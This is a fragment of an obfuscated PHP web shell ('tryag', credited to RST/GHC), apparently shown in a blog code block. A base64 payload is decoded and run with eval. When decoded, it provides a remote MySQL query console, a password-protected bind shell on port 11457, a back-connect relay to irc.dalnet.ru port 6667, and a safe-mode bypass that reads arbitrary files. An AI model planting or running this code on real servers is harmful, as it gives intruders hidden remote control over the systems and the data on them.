PygkX1BPU1RbJ215c3FsX3AnXSk6KCJwYXNzd29yZCIpKSkpOw0KZWNobyBzcigzNSwiPGI+Ii4kbGF
uZ1skbGFuZ3VhZ2UuJ190ZXh0MzknXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfZGInLD
E1LCghZW1wdHkoJF9QT1NUWydteXNxbF9kYiddKT8oJF9QT1NUWydteXNxbF9kYiddKTooIm15c3FsI
ikpKSk7DQplY2hvIHNyKDM1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4NCddLiRhcnJvdy4i
PC9iPiIuaW4oJ2hpZGRlbicsJ2RpcicsMCwkZGlyKS5pbignaGlkZGVuJywnY21kJywwLCdkYl9xdWV
yeScpLCIiKTsNCmVjaG8gJHRlLiI8ZGl2IGFsaWduPWNlbnRlciBpZD0nbic+PHRleHRhcmVhIGNvbH
M9NTUgcm93cz0xIG5hbWU9ZGJfcXVlcnk+Ii4oIWVtcHR5KCRfUE9TVFsnZGJfcXVlcnknXSk/KCRfU
E9TVFsnZGJfcXVlcnknXSk6KCJTSE9XIERBVEFCQVNFUzsgU0VMRUNUICogRlJPTSB1c2VyOyBTRUxF
Q1QgdmVyc2lvbigpOyBzZWxlY3QgdXNlcigpOyIpKS4iPC90ZXh0YXJlYT48YnI+Ii5pbignc3VibWl
0Jywnc3VibWl0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQxJ10pLiI8L2Rpdj48L3RkPiIuJGZlLi
I8L3RyPjwvZGl2PjwvdGFibGU+IjsNCn0NCmlmKCEkc2FmZV9tb2RlJiYhJHdpbmRvd3Mpew0KZWNob
yAkdGFibGVfdXAxLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4MSddLnVwX2Rvd24oJ2lkMjEnKS4kdGFi
bGVfdXAyLmRpdignaWQyMScpLiR0cy4iPHRyPiIuJGZzLiI8dGQgdmFsaWduPXRvcCB3aWR0aD0zNCU
+Ii4kdHM7DQplY2hvICI8Zm9udCBmYWNlPVZlcmRhbmEgc2l6ZT0tMj48Yj48ZGl2IGFsaWduPWNlbn
RlciBpZD0nbic+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OSddLiI8L2Rpdj48L2I+PC9mb250PiI7D
QplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxMCddLiRhcnJvdy4iPC9iPiIs
aW4oJ3RleHQnLCdwb3J0JywxNSwnMTE0NTcnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5
ndWFnZS4nX3RleHQxMSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdiaW5kX3Bhc3MnLDE1LCd0cn
lhZycpKTsNCmVjaG8gc3IoNDAsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDIwJ10uJGFycm93L
iI8L2I+IiwiPHNlbGVjdCBzaXplPVwiMVwiIG5hbWU9XCJ1c2VcIj48b3B0aW9uIHZhbHVlPVwiUGVy
bFwiPlBlcmw8L29wdGlvbj48b3B0aW9uIHZhbHVlPVwiQ1wiPkM8L29wdGlvbj48L3NlbGVjdD4iLml
uKCdoaWRkZW4nLCdkaXInLDAsJGRpcikpOw0KZWNobyBzcig0MCwiIixpbignc3VibWl0Jywnc3VibW
l0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQzJ10pKTsNCmVjaG8gJHRlLiI8L3RkPiIuJGZlLiRmc
y4iPHRkIHZhbGlnbj10b3Agd2lkdGg9MzMlPiIuJHRzOw0KZWNobyAiPGZvbnQgZmFjZT1WZXJkYW5h
IHNpemU9LTI+PGI+PGRpdiBhbGlnbj1jZW50ZXIgaWQ9J24nPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV
4dDEyJ10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoNDAsIjxiPiIuJGxhbmdbJGxhbmd1YW
dlLidfdGV4dDEzJ10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2lwJywxNSwoKGdldGVudignUkVNT
1RFX0FERFInKSkgPyAoZ2V0ZW52KCdSRU1PVEVfQUREUicpKSA6ICgiMTI3LjAuMC4xIikpKSk7DQpl
Y2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxNCddLiRhcnJvdy4iPC9iPiIsaW4
oJ3RleHQnLCdwb3J0JywxNSwnMTE0NTcnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndW
FnZS4nX3RleHQyMCddLiRhcnJvdy4iPC9iPiIsIjxzZWxlY3Qgc2l6ZT1cIjFcIiBuYW1lPVwidXNlX
CI+PG9wdGlvbiB2YWx1ZT1cIlBlcmxcIj5QZXJsPC9vcHRpb24+PG9wdGlvbiB2YWx1ZT1cIkNcIj5D
PC9vcHRpb24+PC9zZWxlY3Q+Ii5pbignaGlkZGVuJywnZGlyJywwLCRkaXIpKTsNCmVjaG8gc3IoNDA
sIiIsaW4oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0NCddKSk7DQplY2
hvICR0ZS4iPC90ZD4iLiRmZS4kZnMuIjx0ZCB2YWxpZ249dG9wIHdpZHRoPTMzJT4iLiR0czsNCmVja
G8gIjxmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjxkaXYgYWxpZ249Y2VudGVyIGlkPSduJz4i
LiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyMiddLiI8L2Rpdj48L2I+PC9mb250PiI7DQplY2hvIHNyKDQ
wLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyMyddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLC
dsb2NhbF9wb3J0JywxNSwnMTE0NTcnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZ
S4nX3RleHQyNCddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdyZW1vdGVfaG9zdCcsMTUsJ2lyYy5k
YWxuZXQucnUnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyNSddLiR
hcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdyZW1vdGVfcG9ydCcsMTUsJzY2NjcnKSk7DQplY2hvIHNyKD
QwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyNiddLiRhcnJvdy4iPC9iPiIsIjxzZWxlY3Qgc
2l6ZT1cIjFcIiBuYW1lPVwidXNlXCI+PG9wdGlvbiB2YWx1ZT1cIlBlcmxcIj5kYXRhcGlwZS5wbDwv
b3B0aW9uPjxvcHRpb24gdmFsdWU9XCJDXCI+ZGF0YXBpcGUuYzwvb3B0aW9uPjwvc2VsZWN0PiIuaW4
oJ2hpZGRlbicsJ2RpcicsMCwkZGlyKSk7DQplY2hvIHNyKDQwLCIiLGluKCdzdWJtaXQnLCdzdWJtaX
QnLDAsJGxhbmdbJGxhbmd1YWdlLidfYnV0dDUnXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuIjwvd
HI+PC9kaXY+PC90YWJsZT4iOw0KfQ0KZWNobyAnPC90YWJsZT4nLiR0YWJsZV91cDMuIjwvZGl2Pjwv
ZGl2PjxkaXYgYWxpZ249Y2VudGVyIGlkPSduJz48Zm9udCBmYWNlPVZlcmRhbmEgc2l6ZT0tMj48Yj5
vLS0tWyB0cnlhZ3NoZWxsIC0gaHR0cC1zaGVsbCBieSBSU1QvR0hDIHwgPGEgaHJlZj1odHRwOi8vcn
N0LnZvaWQucnU+aHR0cDovL3JzdC52b2lkLnJ1PC9hPiB8IDxhIGhyZWY9aHR0cDovL2doYy5ydT5od
HRwOi8vZ2hjLnJ1PC9hPiB8IHZlcnNpb24gIi4kdmVyc2lvbi4iIF0tLS1vPC9iPjwvZm9udD48L2Rp
dj48L3RkPjwvdHI+PC90YWJsZT4iLiRmOw0KDQokdTFwPSIiOyAvLyBGaWxlIHRvIEluY2x1ZGUuLi4
gb3IgdXNlIF9HRVQgX1BPU1QNCiR0eW1jemFzPSIiOyAvLyBTZXQgJHR5bWN6YXMgdG8gZGlyIHdoZX
JlIHlvdSBoYXZlIDc3NyBsaWtlIC92YXIvdG1wDQoNCg0KDQplY2hvICI8UFJFPlxuIjsNCmlmKGVtc
HR5KCR1MXApKXsNCmlmKGVtcHR5KCRfR0VUWyd1MXAnXSkpew0KaWYoZW1wdHkoJF9QT1NUWyd1MXAn
XSkpew0KZGllKCI8dGFibGUgV2lkdGg9JzEwMCUnIGhlaWdodD0nNyUnIGJnY29sb3I9JyM4QzA0MDQ
nIGJvcmRlcj0nMSc+DQo8dHI+DQo8dGQ+PGNlbnRlcj48Zm9udCBzaXplPSczJyBjb2xvcj0nI0JCQj
UxNic+IEJ5ICAqIE1vaGFqZXIyMi1UcllhRyBUZWFtICogKiA8YSBocmVmPWh0dHA6Ly93d3cudHJ5Y
WcuY29tPmh0dHA6Ly93d3cudHJ5YWcuY29tPC9hPiB8IDxhIGhyZWY9aHR0cDovL3d3dy5kd3JhdC5j
b20+aHR0cDovL3d3dy5kd3JhdC5jb208L2E+PC9jZW50ZXI+PC90ZD4NCjwvdHI+DQo8L3RhYmxlPjw
vRk9OVD4iKTsNCn0gZWxzZSB7DQokdTFwPSRfUE9TVFsndTFwJ107DQp9DQp9IGVsc2Ugew0KJHUxcD
0kX0dFVFsndTFwJ107DQp9DQp9DQoNCiR0ZW1wPXRlbXBuYW0oJHR5bWN6YXMsICJjeCIpOw0KDQppZ
ihjb3B5KCJjb21wcmVzcy56bGliOi8vIi4kdTFwLCAkdGVtcCkpew0KJHpyb2RsbyA9IGZvcGVuKCR0
ZW1wLCAiciIpOw0KJHRla3N0ID0gZnJlYWQoJHpyb2RsbywgZmlsZXNpemUoJHRlbXApKTsNCmZjbG9
zZSgkenJvZGxvKTsNCmVjaG8gIiIuaHRtbHNwZWNpYWxjaGFycygkdGVrc3QpLiIiOw0KdW5saW5rKC
R0ZW1wKTsNCg0KfSBlbHNlIHsNCmRpZSgiPEZPTlQgQ09MT1I9XCJSRURcIj48Q0VOVEVSPlNvcnJ5L
i4uIEZpbGUNCjxCPiIuaHRtbHNwZWNpYWxjaGFycygkdTFwKS4iPC9CPiBkb3Nlbid0IGV4aXN0cyBv
ciB5b3UgZG9uJ3QgaGF2ZQ0KYWNjZXNzLjwvQ0VOVEVSPjwvRk9OVD4iKTsNCn0=";

eval(base64
_decode($tryag));

?>
{% endhighlight %}
